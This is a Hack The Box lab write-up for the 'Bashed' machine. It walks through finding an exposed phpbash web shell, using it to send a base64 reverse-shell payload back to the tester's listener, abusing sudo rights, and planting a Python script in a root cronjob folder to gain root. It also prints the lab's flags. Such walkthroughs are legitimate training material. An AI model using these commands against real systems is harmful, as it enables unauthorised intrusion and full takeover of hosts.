





+++
title = "Bashed"
date = "2024-01-25"
description = "This is an easy Linux box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Linux

**Release date**: 2017-12-09

**Created by**: [Arrexel](https://app.hackthebox.com/users/2904)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great
practice security-wise, but it's a VM so it's alright. This way I won't have to
prefix some commands with `sudo`, which gets cumbersome in the long run.

I like to maintain consistency in my workflow for every box, so before starting
with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box.
   I'll call it `workspace`, and it will be located at the root of my filesystem
   `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll use
   `httpsimpleserver` to create an HTTP server on port `80` and
   `impacket-smbserver` to create an SMB share named `server`. This will make
   files in this folder available over the Internet, which will be especially
   useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory.
   This will come in handy once we get a foothold, for privilege escalation and
   for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the
complexity of some exploits, and prefer a more manual approach when it's not too
much hassle. This way, I'll have a better understanding of the exploits I'm
running, and I'll have more control over what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.4`. The
commands ran on my machine will be prefixed with `❯` for clarity, and if I ever
need to transfer files or binaries to the target machine, I'll always place them
in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Host `10.10.10.68`

## Scanning

### Ports

As usual, let's start by initiating a port scan on Bashed using a TCP SYN `nmap`
scan to assess its attack surface.

```sh
❯ nmap -sS "10.10.10.68" -p-
```

```
<SNIP>
PORT   STATE SERVICE
80/tcp open  http
<SNIP>
```

Let's also check the 500 most common UDP ports.

```sh
❯ nmap -sU "10.10.10.68" --top-ports "500"
```

```
<SNIP>
```

### Fingerprinting

Following the ports scans, let's gather more data about the service associated
with the open TCP port we found.

```sh
❯ nmap -sS "10.10.10.68" -p "80" -sV
```

```
<SNIP>
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
<SNIP>
```

Alright, so the version of Apache suggests that Bashed might be running Ubuntu.

### Scripts

Let's run `nmap`'s default scripts on the TCP service to see if they can find
additional information.

```sh
❯ nmap -sS "10.10.10.68" -p "80" -sC
```

```
<SNIP>
PORT   STATE SERVICE
80/tcp open  http
|_http-title: Arrexel's Development Site
<SNIP>
```

## Services enumeration

### Apache

#### Exploration

Let's browse to `http://10.10.10.68/`.



This is a website that promotes the `phpbash` tool.

#### Fingerprinting

Let's fingerprint the technologies used by this web page with the
[Wappalyzer](https://www.wappalyzer.com/) extension.



#### Exploration

The only web page we have access to is `/single.html`:



This is an article about `phpbash`. The author claims that it 'helps a lot with
pentesting', and that 'it's very useful'. He also indicates that it has been
developed on this server... That's interesting! This also means that PHP is in
use.

The author provides a link to the
[GitHub source code](https://github.com/Arrexel/phpbash).

> `phpbash` is a standalone, semi-interactive web shell. Its main purpose is to
> assist in penetration tests where traditional reverse shells are not possible.
> The design is based on the default Kali Linux terminal colors, so pentesters
> should feel right at home.
>
> — [GitHub](https://github.com/Arrexel/phpbash)

Therefore, we understand that a webshell is present on the server. We'll have to
find it!

#### Directory fuzzing

Let's see if we can locate this webshell.

```sh
❯ ffuf -v -c -u "http://10.10.10.68/FUZZ" -w "/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt" -mc "100-403,405-599" -e "/,.php"
```

```
<SNIP>
[Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 28ms]
| URL | http://10.10.10.68/images
| --> | http://10.10.10.68/images/
    * FUZZ: images

[Status: 200, Size: 1564, Words: 91, Lines: 20, Duration: 28ms]
| URL | http://10.10.10.68/images/
    * FUZZ: images/

[Status: 403, Size: 292, Words: 22, Lines: 12, Duration: 25ms]
| URL | http://10.10.10.68/icons/
    * FUZZ: icons/

[Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 24ms]
| URL | http://10.10.10.68/uploads
| --> | http://10.10.10.68/uploads/
    * FUZZ: uploads

[Status: 200, Size: 14, Words: 1, Lines: 2, Duration: 23ms]
| URL | http://10.10.10.68/uploads/
    * FUZZ: uploads/

[Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 25ms]
| URL | http://10.10.10.68/php
| --> | http://10.10.10.68/php/
    * FUZZ: php

[Status: 200, Size: 939, Words: 64, Lines: 17, Duration: 26ms]
| URL | http://10.10.10.68/php/
    * FUZZ: php/

[Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 25ms]
| URL | http://10.10.10.68/css
| --> | http://10.10.10.68/css/
    * FUZZ: css

[Status: 200, Size: 1758, Words: 99, Lines: 21, Duration: 25ms]
| URL | http://10.10.10.68/css/
    * FUZZ: css/

[Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 27ms]
| URL | http://10.10.10.68/dev
| --> | http://10.10.10.68/dev/
    * FUZZ: dev

[Status: 200, Size: 1148, Words: 76, Lines: 18, Duration: 27ms]
| URL | http://10.10.10.68/dev/
    * FUZZ: dev/

[Status: 200, Size: 3165, Words: 190, Lines: 27, Duration: 25ms]
| URL | http://10.10.10.68/js/
    * FUZZ: js/

[Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 26ms]
| URL | http://10.10.10.68/js
| --> | http://10.10.10.68/js/
    * FUZZ: js

[Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 33ms]
| URL | http://10.10.10.68/config.php
    * FUZZ: config.php

[Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 25ms]
| URL | http://10.10.10.68/fonts
| --> | http://10.10.10.68/fonts/
    * FUZZ: fonts

[Status: 200, Size: 2095, Words: 124, Lines: 22, Duration: 26ms]
| URL | http://10.10.10.68/fonts/
    * FUZZ: fonts/

[Status: 200, Size: 7743, Words: 2956, Lines: 162, Duration: 25ms]
| URL | http://10.10.10.68/
    * FUZZ: 

[Status: 200, Size: 7743, Words: 2956, Lines: 162, Duration: 48ms]
| URL | http://10.10.10.68//
    * FUZZ: /

[Status: 403, Size: 290, Words: 22, Lines: 12, Duration: 48ms]
| URL | http://10.10.10.68/.php
    * FUZZ: .php

[Status: 403, Size: 299, Words: 22, Lines: 12, Duration: 27ms]
| URL | http://10.10.10.68/server-status
    * FUZZ: server-status

[Status: 403, Size: 300, Words: 22, Lines: 12, Duration: 28ms]
| URL | http://10.10.10.68/server-status/
    * FUZZ: server-status/
<SNIP>
```

The `/config.php` file is likely included in a PHP page, but it's not what we're
looking for.

My first idea was to check `/uploads/`, but I found nothing. However, the author
of this website said that `phpbash` has been 'developed' on this server... As if
if by chance, there's a `/dev/` folder! Let's browse to it.



Luckily, file listing is enabled. We see that the `phpbash` files are present,
and haven't been renamed! Let's browse to any of them.


Here it is!

## Foothold (Webshell)

Webshells are great, but I prefer reverse shells.

### Preparation

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll choose the Base64 encoded version of the 'Bash -i' payload from
[RevShells](https://www.revshells.com/) configured to obtain a `/bin/bash`
shell.

I'll save it as the `BASE64_REVSHELL_PAYLOAD` shell variable.

### Exploitation

Now let's use our webshell to execute our reverse shell payload.

```sh
❯ curl -s -o "/dev/null" "http://10.10.10.68/dev/phpbash.php" -X "POST" --data-urlencode "cmd=/bin/echo $BASE64_REVSHELL_PAYLOAD | /usr/bin/base64 -d | /bin/bash -i"
```

If we check our listener:

```
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.68] 39624
<SNIP>
www-data@bashed:/var/www/html/dev$
```

It caught the reverse shell!

### Spawning a pty

Let's use this one-liner to spawn a pty:

```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `www-data`.

### Architecture

What is Bashed's architecture?

```sh
www-data@bashed:/var/www/html/dev$ uname -m
```

```
x86_64
```

It's using x86_64. Let's keep that in mind to select the appropriate binaries.

### Distribution

Let's see which distribution Bashed is using.

```sh
www-data@bashed:/var/www/html/dev$ cat "/etc/lsb-release"
```

```
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.2 LTS"
```

Okay, so it's Ubuntu 16.04.

### Kernel

Let's find the kernel version of Bashed.

```sh
www-data@bashed:/var/www/html/dev$ uname -r
```

```
4.4.0-62-generic
```

It's `4.4.0`.

### Users

Let's enumerate all users.

```sh
www-data@bashed:/var/www/html/dev$ grep ".*sh$" "/etc/passwd" | cut -d ":" -f "1" | sort
```

```
arrexel
root
scriptmanager
```

There's `arrexel`, `root` and `scriptmanager`.

### Groups

Let's enumerate all groups.

```sh
www-data@bashed:/var/www/html/dev$ cat "/etc/group" | cut -d ":" -f "1" | sort
```

```
adm
arrexel
audio
backup
bin
cdrom
crontab
daemon
dialout
dip
disk
fax
floppy
games
gnats
input
irc
kmem
list
lp
lpadmin
mail
man
messagebus
mlocate
netdev
news
nogroup
operator
plugdev
proxy
root
sambashare
sasl
scriptmanager
shadow
src
ssh
ssl-cert
staff
sudo
sys
syslog
systemd-bus-proxy
systemd-journal
systemd-network
systemd-resolve
systemd-timesync
tape
tty
users
utmp
uucp
uuidd
video
voice
www-data
```

### NICs

Let's gather the list of connected NICs.

```sh
www-data@bashed:/var/www/html/dev$ ifconfig
```

```
ens33     Link encap:Ethernet  HWaddr 00:50:56:b9:6e:c7  
          inet addr:10.10.10.68  Bcast:10.10.10.255  Mask:255.255.255.255
          inet6 addr: fe80::250:56ff:feb9:6ec7/64 Scope:Link
          inet6 addr: dead:beef::250:56ff:feb9:6ec7/64 Scope:Global
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:66952 errors:0 dropped:16 overruns:0 frame:0
          TX packets:66420 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:4046934 (4.0 MB)  TX bytes:4091220 (4.0 MB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:6720 errors:0 dropped:0 overruns:0 frame:0
          TX packets:6720 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1 
          RX bytes:497280 (497.2 KB)  TX bytes:497280 (497.2 KB)
```

There's an Ethernet interface and the loopback interface.

### Hostname

What is Bashed's hostname?

```sh
www-data@bashed:/var/www/html/dev$ hostname
```

```
bashed
```

Yeah I know, very surprising.

## System enumeration

### Flags

If we check `arrexel`'s home folder, we find the user flag.

```sh
www-data@bashed:/var/www/html/dev$ cat "/home/arrexel/user.txt"
```

```
2cae1f23aa11c5393b7e832b04810c9f
```

### Website code review

Let's review the content of the Apache website, located at `/var/www/html`.

The `config.php` file actually contains a dummy email. The `uploads` folder only
contains a blank `index.html` file, but the `php` folder contains a mysterious
`sendMail.php` file.

```php
<SNIP>
if (isset($_POST["action"])) {
    $action = $_POST["action"];

    switch ($action) {
        case "SendMessage":
            if (
                isset($_POST["name"]) &&
                isset($_POST["email"]) &&
                isset($_POST["subject"]) &&
                isset($_POST["message"]) &&
                !empty($_POST["name"]) &&
                !empty($_POST["email"]) &&
                !empty($_POST["subject"]) &&
                !empty($_POST["message"])
            ) {
                $message = $_POST["message"];
                $message .= "<br/><br/>";

                $response = SendEmail(
                    $message,
                    $_POST["subject"],
                    $_POST["email"],
                    $email
                )
                    ? "Message Sent"
                    : "Sending Message Failed";
            } else {
                $response = "Sending Message Failed";
            }
            break;
        default:
            $response = "Invalid action is set! Action is: " . $action;
    }
}
<SNIP>
```

This PHP file accepts a POST request. It sends an email with a custom message to
the specified recipient.

Let's investigate this functionality.

## Services enumeration

### Apache

Let's send a POST request to `http://10.10.10.68/php/sendMail.php` to send an email.

```sh
❯ curl -s "http://10.10.10.68/php/sendMail.php" -X "POST" --data-urlencode "action=SendMessage" --data-urlencode "email=dummy@email.htb" --data-urlencode "subject=dummySubject" --data-urlencode "message=dummyMessage" --data-urlencode "name=dummyName"
```

```
{"ResponseData":"Message Sent"}
```

According to the response, the message has been sent.

I tried sending an email to a temporary address, but I never received the email.
I guess it's a dead end.

## System enumeration

### Sudo permissions

Let's see if we can execute anything as another user with `sudo`.

```sh
www-data@bashed:/var/www/html/dev$ sudo -l
```

```
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

We can run anything as `scriptmanager`!

## Lateral movement (Sudo permissions)

### Exploitation

Let's abuse our `sudo` permissions to execute `/bin/bash` as `scriptmanager`.

```sh
www-data@bashed:/var/www/html/dev$ sudo -u "scriptmanager" "/bin/bash" "-i"
```

```
<SNIP>
scriptmanager@bashed:/var/www/html/dev$
```

Now we have a shell as `scriptmanager`!

## System enumeration

### Exploring `/scripts`

If we run `pspy`, we see that there's a cronjob running every minute that
executes all scripts in the `/scripts` folder as `root`.

Let's list the content of this folder.

```sh
scriptmanager@bashed:/var/www/html/dev$ ls -la "/scripts"
```

```
<SNIP>
drwxrwxr--  2 scriptmanager scriptmanager 4096 Jun  2  2022 .
drwxr-xr-x 23 root          root          4096 Jun  2  2022 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Jan 25 01:46 test.txt
```

It contains two files: `test.py` and `test.txt`.

```py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

The `test.py` file opens `test.txt` and writes `testing 123!`. If we check
`test.txt`, we see that it indeed contains this string, meaning that it has
already been executed.

The good news is that we're the owner of the `/scripts` folder, and that `root`
executes all Python scripts in this folder. This means that we can create a
Python script that will be executed using `python` as `root`!

## Privilege escalation (Sudo permissions)

### Preparation

The goal is to obtain a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9002"
```

Then, I'll choose the Base64 encoded version of the 'Bash -i' payload from
[RevShells](https://www.revshells.com/) configured to obtain a `/bin/bash`
shell.

### Exploitation

I'll create a `privesc.py` file in `/scripts` to execute this command:

```py
import os

os.system("/bin/echo <BASE64_REVSHELL_PAYLOAD> | /usr/bin/base64 -d | /bin/bash -i")
```

We just have to wait for the cronjob to execute. Then, if we check our listener:

```
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.68] 42786
<SNIP>
root@bashed:/scripts#
```

It caught the reverse shell!

### Spawning a pty

Let's use this one-liner to spawn a pty:

```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## System enumeration

If we run `whoami`, we see that we're `root`!

### Flags

As usual, we can find the root flag in our home folder.

```sh
root@bashed:/scripts# cat "/root/root.txt"
```

```
82ff29fb789abf36d69ea046c1847967
```

# Afterwords



That's it for this box! 🎉

I rated the user flag as 'Very easy' and the root flag as 'Easy'. The foothold
was really easy to find and to exploit. The privilege escalation was slightly
harder, as it first required to move laterally, and then to identify a cronjob
to get `root`.

Thanks for reading!
